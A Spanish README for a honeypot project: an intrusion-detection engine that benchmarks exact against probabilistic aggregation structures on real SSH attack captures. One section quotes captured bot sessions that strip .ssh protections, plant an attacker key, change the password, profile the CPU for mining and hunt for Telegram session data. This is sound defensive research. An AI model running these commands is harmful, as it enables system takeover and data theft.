





# honeypot

[](https://github.com/glezpedro/honeypot/actions/workflows/ci.yml)

Motor de detección de intrusiones sobre flujos de eventos, con las estructuras de
agregación intercambiables entre una versión exacta y otra probabilística.

Los datos no son sintéticos ni de un repositorio público: salen de un honeypot SSH
propio que capturó ataques reales del 14 al 29 de septiembre de 2026.



---

## El resultado

Para mantener el ranking de atacantes, **Space-Saving ocupa el 1,2 % de la memoria
del mapa exacto y acierta el 100 %**: 144 KB fijos frente a 12,0 MB con medio millón
de claves.

Y el resultado que no se suele contar: **para la detección de fuerza bruta,
Count-Min Sketch pierde**. Necesita entre 2,7 y 5,3 veces *más* memoria que la
estructura exacta para mantener las falsas alarmas por debajo del 5 %. El motivo
está en la sección de resultados, y no es un fallo de implementación.

---

## Qué hace

```
  Internet ──▶ honeypot Cowrie ──▶ cowrie.json
                                        │
                                        ▼
                                 CowrieNormalizer ──▶ diccionarios (texto → entero)
                                        │
                                        ▼
                                   EventStore              5 arrays primitivos
                                        │
                                        ▼
                                    Replayer ──▶ PartitionedEngine
                                                      │  hash(IP) % N
                                          ┌───────────┼───────────┐
                                        Hilo 0      Hilo 1      Hilo N
                                          │           │           │
                                      DetectionEngine (estado aislado, sin bloqueos)
                                          └───────────┼───────────┘
                                                      ▼
                                                   Alert
```

Tres detecciones, cada una con un tipo de agregación distinto, y cada agregación
con dos implementaciones tras la misma interfaz:

| Detección | Pregunta | Exacta | Probabilística |
|---|---|---|---|
| Fuerza bruta | ¿cuántos intentos lleva esta IP? | `Int2LongOpenHashMap` | Count-Min Sketch |
| Enumeración de usuarios | ¿cuántos usuarios distintos ha probado? | mapa de conjuntos | HyperLogLog |
| Ranking de atacantes | ¿quiénes son los 20 más activos? | mapa + ordenación | Space-Saving |

Ventanas de salto de 60 segundos. Es lo que hace viables a Count-Min Sketch y
HyperLogLog, que no saben borrar elementos: al cerrar la ventana se descarta la
estructura entera.

---

## El panel



El panel pasa el mismo flujo **a la vez por las dos implementaciones**, evento a evento
y en el mismo orden. Todo lo que muestra es una comparación directa, no dos ejecuciones
distintas puestas una al lado de la otra.

**La sierra contra la línea plana.** El mapa exacto crece con cada clave nueva de la
ventana y se vacía de golpe al cerrarla. Space-Saving no se mueve: mantiene sus 4.096
contadores ocupen lo que ocupen los datos. El cruce de las dos líneas es el de la
sección de resultados, ocurriendo en directo.

**Los dos rankings, lado a lado.** La misma lista con las mismas cuentas. Se comparan
por pertenencia y no por posición: cuando dos IPs empatan, cada estructura deshace el
empate a su manera y el orden entre ellas no significa nada.

**La tabla de concordancia.** Las alertas de cada ventana se comparan al cerrarla.
Count-Min Sketch se inventa alguna y **no pierde ninguna**, que es lo que garantiza la
teoría. HyperLogLog sí pierde: con un umbral de 6 usuarios distintos, el error del
estimador cae justo donde se decide la alerta.

Lo más rápido es el JAR de la [última versión](https://github.com/glezpedro/honeypot/releases/latest),
que solo necesita Java 21:

```sh
java -jar honeypot-1.0.0.jar
```

O compilándolo desde el código:

```sh
mvn -f engine/pom.xml package
java -jar engine/target/honeypot-1.0.0.jar
```

Queda en `http://localhost:8080` con un flujo sintético de 1,2 millones de eventos. Con
la ruta de un `cowrie.json` como argumento reproduce la captura real en su lugar.

El servidor solo escucha en el bucle local y no lleva autenticación. Las direcciones
reales se muestran con el último octeto oculto, así que cualquier captura del panel es
publicable tal cual; las sintéticas salen del bloque 198.18.0.0/15, que la RFC 2544
reserva para bancos de pruebas.

---

## Los datos

8,4 días de captura continua, del 14 al 23 de septiembre de 2026:

| | |
|---|---|
| Eventos registrados | 216.990 |
| Direcciones IP distintas | 776 |
| Nombres de usuario probados | 1.555 |
| Intentos de acceso fallidos | 42.348 |
| Accesos conseguidos | 639 |
| Órdenes ejecutadas dentro | 761 |
| Descargas de carga útil intentadas | 82 |

Los diez usuarios más probados:

```
root      16.070      deploy       730
ubuntu     2.643      test         599
admin      1.711      claude       310
user         923      user1        306
                      postgres     272
```

El `root` domina, como era de esperar. Que `claude` aparezca en el top-10 sugiere que
las listas de credenciales ya incorporan nombres de herramientas recientes.

### Un ataque real

Sesión completa de un bot, con las direcciones enmascaradas y la clave recortada:

```sh
# 1. Quitar la protección del directorio de claves
cd ~; chattr -ia .ssh; lockr -ia .ssh

# 2. Instalar su propia clave para no necesitar la contraseña otra vez
cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EA...[recortada]" > .ssh/authorized_keys

# 3. Averiguar cuánta CPU hay (reconocimiento para minado)
cat /proc/cpuinfo | grep name | wc -l
cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9;}'
free -m | grep Mem | awk '{print $2,$3,$4,$5,$6,$7}'
uname -m

# 4. Cambiar la contraseña para echar al dueño
echo -e "user\n[contraseña]\n[contraseña]"|passwd|bash

# 5. Comprobar que no hay nadie mirando
crontab -l
w
```

Otro bot distinto busca datos que vender en lugar de CPU:

```sh
ls -la ~/.local/share/TelegramDesktop/tdata /home/*/.local/share/TelegramDesktop/tdata \
       /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/*
ps -ef | grep '[Mm]iner'
/ip cloud print
```

Esa última orden es de RouterOS, de MikroTik. El bot la lanza a ciegas por si ha
caído en un router en lugar de en un servidor.

---

## Resultados

Todos son reproducibles con los bancos de pruebas de `engine/src/main/java/.../bench/`.
El tráfico sintético usa una distribución Zipf con exponente **0,8**, calibrado contra
la forma real del tráfico capturado.

### Ranking de atacantes: Space-Saving gana por goleada

Space-Saving con 4.096 contadores, 144 KB fijos, frente al mapa exacto:

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/memoria-ranking-dark.png">
  
</picture>


| Claves | Exacto | Space-Saving | Memoria | Acierto |
|---:|---:|---:|---:|---:|
| 1.000 | 24 KB | 144 KB | 6,00x | 100 % |
| 5.000 | 96 KB | 144 KB | 1,50x | 100 % |
| 20.000 | 384 KB | 144 KB | **0,375x** | 100 % |
| 100.000 | 1,5 MB | 144 KB | **0,094x** | 100 % |
| 500.000 | 12,0 MB | 144 KB | **0,012x** | 100 % |

El cruce está en **6.144 claves**. Por encima, el ahorro crece sin límite porque el
sketch no crece: mantiene `k` contadores y punto.

### Fuerza bruta: Count-Min Sketch pierde, y por un buen motivo

Ancho mínimo necesario para mantener las falsas alarmas por debajo del 5 %:

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/memoria-fuerza-bruta-dark.png">
  
</picture>


| Claves | Exacto | Count-Min | Memoria | Falsas |
|---:|---:|---:|---:|---:|
| 1.000 | 24 KB | 64 KB | 2,67x | 1,9 % |
| 10.000 | 192 KB | 512 KB | 2,67x | 2,3 % |
| 50.000 | 768 KB | 4,0 MB | 5,33x | 0,7 % |
| 100.000 | 1,5 MB | 8,0 MB | 5,33x | 0,7 % |

Count-Min Sketch acota el error respecto al **total del flujo** (ε·N), no respecto al
valor de cada clave. Con un umbral absoluto bajo —10 intentos— hace falta un ε
diminuto para que las colisiones no crucen el umbral por su cuenta, y eso obliga a un
ancho que crece con el número de claves. Se pierde la ventaja.

**Count-Min Sketch es para claves pesadas, no para umbrales pequeños.** Que es
exactamente el hueco que cubre Space-Saving.

### Cero falsos negativos, verificado

Ninguna alerta perdida en ocho órdenes de magnitud de cardinalidad, en ninguna
configuración de tamaño.

No es casualidad: Count-Min Sketch **solo sobreestima**, porque cada celda contiene lo
que aportó la clave más lo que aportaron las que colisionaron ahí. Con una regla de
umbral eso significa que ningún ataque real puede pasar desapercibido. El sketch puede
inventarse alertas, pero no perder ninguna.

Los bancos de pruebas abortan si alguna vez ocurriera.

### Escalado

2.000.000 de eventos, 50.000 claves, sobre 12 núcleos lógicos:

<picture>
  <source media="(prefers-color-scheme: dark)" srcset="docs/escalado-dark.png">
  
</picture>


| Hilos | Eventos/s | Aceleración | Partición más cargada |
|---:|---:|---:|---:|
| 1 | 12,1 M | 1,00x | — |
| 2 | 17,2 M | 1,42x | 51,9 % |
| 4 | 27,5 M | 2,28x | 27,0 % |
| 8 | 28,9 M | 2,40x | 14,3 % |
| 16 | 34,0 M | 2,82x | 8,1 % |

La saturación **no viene del reparto**: con 16 particiones la más cargada se queda en
el 8,1 %, muy cerca del 6,25 % ideal. El cuello de botella es el hilo productor, que
hace el hash y el encolado él solo. Cada trabajador procesa unos 2,1 M eventos/s
cuando en solitario alcanza 12 M, así que están sin trabajo.

---

## Ejecutarlo

Requiere Java 21 y Maven.

```sh
mvn -f engine/pom.xml test
```

El panel se levanta como se explica en su propia sección. El JAR lleva dentro todas las
dependencias, así que los resultados se reproducen con él:

```sh
mvn -f engine/pom.xml package
java -cp engine/target/honeypot-1.0.0.jar com.glezpedro.honeypot.bench.TopKSizing 4096
java -cp engine/target/honeypot-1.0.0.jar com.glezpedro.honeypot.bench.SketchSizing 0.05
java -cp engine/target/honeypot-1.0.0.jar com.glezpedro.honeypot.bench.ScalingBench
```

Los guiones de `honeypot/` despliegan el honeypot sobre una máquina Ubuntu: mudan el
SSH de administración a otro puerto, instalan Cowrie sin privilegios, redirigen el 22
hacia él y bloquean sus conexiones salientes.

---

## Decisiones técnicas

**El motor no maneja cadenas de texto.** Las IPs y los usuarios se traducen a enteros
en la entrada. No es por velocidad: si el lado exacto cargara con el coste de los
objetos `String`, la comparación de memoria mediría el envoltorio en lugar de la
estructura de agregación, y el sketch ganaría por el motivo equivocado. Por lo mismo,
el lado exacto usa colecciones primitivas de fastutil y no `HashMap<Integer,Long>`.

**Los eventos se guardan en cinco arrays paralelos, no en objetos.** El evento número
7 son las posiciones 7 de los cinco arrays. Con millones de eventos reproducidos para
medir, una lista de objetos serían millones de asignaciones que el recolector tendría
que perseguir. De ahí que `EventSink` reciba `(almacén, índice)`: no hay objeto que
pasar.

**El umbral se comprueba de forma incremental, no al cerrar la ventana.** Recorrer las
claves al cierre sería lo natural, pero un Count-Min Sketch **no sabe enumerar las
suyas**, y mantener la lista aparte gastaría la memoria que el sketch ahorra. Así que
tras cada suma se consulta esa clave concreta. Esto está codificado en las interfaces:
`CountAggregator` no tiene `keys()` y `CardinalityAggregator` sí. Como efecto
secundario, las alertas salen en el instante en que se cruza el umbral.

**La ventana la cierra el productor, no cada partición.** Con el estado repartido por
IP, la fuerza bruta y la enumeración salen idénticas a las de un solo hilo sin hacer
nada. El ranking no: cada partición solo conoce el suyo. Como una IP vive en una sola
partición, el top global está siempre dentro de la unión de los locales y basta con
quedarse con los K mayores. Lo difícil es saber cuándo han terminado todas, porque una
partición sin tráfico no se entera de que la ventana ha cambiado. El hilo productor sí
lo ve, porque ve todos los eventos: antes de pasar el primero de la ventana nueva manda
un aviso de cierre por cada cola, y como las colas son FIFO ninguna partición empieza
una ventana sin haber entregado la anterior. El ranking sale igual que el de un solo
hilo, y el coste no se distingue del ruido de la medición.

**`Alert` es un `record`.** Su `equals` por valor es lo que permite meter las alertas
de ambos modos en dos conjuntos y restarlos para contar las perdidas y las sobrantes.
Con una clase corriente esa resta no significaría nada.

**El modo a tasa fija calcula un instante absoluto por evento.** Dormir un rato tras
cada uno acumula deriva: a los mil eventos se llevan segundos de retraso. Calculando
el instante objetivo desde el arranque, un evento lento no descuadra el ritmo medio.

**El panel reproduce en tiempo de evento, no a eventos por segundo.** Avanzar a ritmo
constante aplanaría el tráfico y con la captura real lo interesante son justo las
ráfagas. El reloj de los eventos se acelera por un factor, y los silencios largos se
recortan a un cuarto de segundo para que un hueco de horas no deje el panel parado.

**Los umbrales están medidos, no supuestos.** Los valores de partida —20 intentos y 10
usuarios por minuto— solo veían las ráfagas, y las ráfagas son raras: una IP llegó a
871 intentos en un minuto, pero los pares IP-minuto por encima de 20 son el 0,3 %. El
grueso del ataque va a ritmo fijo durante horas: el 90 % no pasa de 12 intentos por
minuto y el 99 % no pasa de 13. Con 10 intentos y 6 usuarios, las alertas de fuerza
bruta pasan de 28 a 2.305 en los mismos 8,4 días.

---

## Limitaciones conocidas

**`memoryBytes()` es una estimación razonada** del tamaño de tabla a partir del factor
de carga, no una medida del montón. Suficiente para comparar contra el cálculo
analítico de un sketch, que sí es exacto.

**HyperLogLog necesita un estimador por clave**, y uno denso ocupa cientos de bytes.
Con tráfico real, donde la mayoría de atacantes prueban pocos usuarios, el conjunto
exacto gana. El modo disperso de HLL++ existe precisamente para ese caso y no está
implementado.

**Contar contraseñas en lugar de usuarios no salvaría a HyperLogLog.** Por clave, el
estimador ocupa menos que el conjunto exacto a partir de 25 elementos distintos, y en
una ventana de 60 segundos una IP no puede probar más contraseñas que intentos: solo
llegan a 25 el 0,14 % de los pares IP-minuto. Con ventanas de una hora serían el 15 %,
pero cada alerta llegaría con hasta una hora de retraso. Lo que condena al estimador es
la ventana, no el campo.

**El motor asume eventos en orden temporal.** El registro de Cowrie lo cumple; un
evento retrasado caería en la ventana equivocada.

---

## Datos personales

Las direcciones IP capturadas son datos personales, y las contraseñas que prueban los
bots proceden en su mayoría de filtraciones reales de terceros. Ni unas ni otras se
versionan ni aparecen en este documento: los registros en crudo están excluidos del
repositorio, las direcciones de los ejemplos están enmascaradas y el panel oculta el
último octeto de las que muestra.
